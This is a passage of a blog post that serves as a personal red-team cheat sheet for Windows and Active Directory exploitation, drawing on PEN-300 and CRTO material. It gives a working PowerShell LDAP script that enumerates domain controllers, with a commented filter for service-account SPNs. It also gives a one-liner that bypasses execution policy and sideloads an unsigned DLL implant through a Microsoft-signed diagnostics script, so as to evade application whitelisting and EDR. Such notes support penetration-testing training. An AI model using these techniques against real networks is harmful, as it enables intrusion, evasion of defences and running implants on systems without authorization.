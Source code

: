 ```yaml
---
title: "Offensive Notes" 
layout: "post"
---
```


This blog post has been updated based on some tools and techniques from Offensive Security’s PEN-300 course as well ad the CRTO course from Rastamouse. 
It should be useful in a lot of cases when dealing with Windows / AD exploitation. This is my quick and dirty cheat sheet. 


## 1) Enumeration

### LDAP AD enumeration

```powershell
#Build LDAP filters to look for users with SPN values registered for current domain
#$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"

#Build LDAP filters to look for domain controller
$ldapFilter = "(primaryGroupID=516)"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
$results = $search.FindAll()
foreach ($result in $results)
{
	$object = $result.GetDirectoryEntry()
	Write-Host "Object Name = " $object.name
}
```

## 2) PowerShell one-liners

.NET reflection allows an application to obtain information about loaded assemblies and the types defined within them, then even create and invoke new instances.

### Blend in execution of implant or beacon into regular activity

If you find yourself inside a target environment with strong application whitelisting controls, pesky EDR that blocks common LOLBins, and/or just need an option to blend in execution of your unsigned implant or beacon into regular activity, consider this: 
Microsoft-signed utility buried in c:\windows\diagnostics\system\networking that will execute unsigned DLLs through the Microsoft utility. I’m not sure why this functionality exists for this particular utility, and I seriously doubt Microsoft will address it;
```powershell
powershell.exe -ep bypass -command “set-location -path c:\windows\diagnostics\system\networking; import-module .\UtilityFunctions.ps1; RegSnapin ..\..\..\..\temp\unsigned.dll;[Program.Class]::Main()”```
```
